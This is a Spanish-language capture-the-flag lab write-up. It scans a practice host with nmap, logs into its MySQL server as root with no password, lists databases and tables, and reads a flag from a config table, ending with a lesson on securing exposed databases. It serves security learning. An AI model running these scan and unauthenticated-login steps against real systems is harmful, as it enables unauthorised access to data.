








----------------
- Tags: #vulnerabilidad #database #mysql #sql #reconocimiento #weakcredentials 
------------------

.



Comenzamos identificando servicios abiertos con un escaneo rápido:

```bash
nmap -p- --min-rate 5000 -T4 -n -Pn 10.129.131.179
```



Vemos que el puerto abierto es el **3306**, correspondiente al servicio **MySQL**.

## 🔐 Conexión al servicio MySQL

Nos conectamos directamente con `mysql` como usuario `root`, sin contraseña:

```bash
mysql -h 10.129.131.179 -u root 
```

Accedemos correctamente. Desde el monitor de MariaDB, exploramos las bases de datos:



```bash
SHOW DATABASES;
```

Identificamos una base de datos que no es del sistema: **htb**



## 📂 Exploración de la base de datos `htb`

Seleccionamos la base de datos:

```bash
USE htb;
```



Comprobamos qué tablas contiene:

```bash
SHOW TABLES;
```



La tabla **config** llama la atención, así que la consultamos:

```bash
SELECT * FROM config;
```



En la columna `value`, dentro de la fila `flag`, encontramos la flag.

📌 **Flag encontrada:**

## ✅ Conclusión final

- Se expone un servicio de **MySQL sin contraseña** para el usuario root, lo que representa una gran vulnerabilidad.
    
- Mediante conexión directa, se accede a la base de datos `htb` y se consulta su contenido.
    
- La flag se encuentra fácilmente en la tabla `config`.
    

🧠 **Lección aprendida:** Nunca se debe dejar un servicio de base de datos accesible desde fuera y menos aún sin autenticación. Es fundamental aplicar controles de acceso estrictos y reglas de firewall adecuadas.
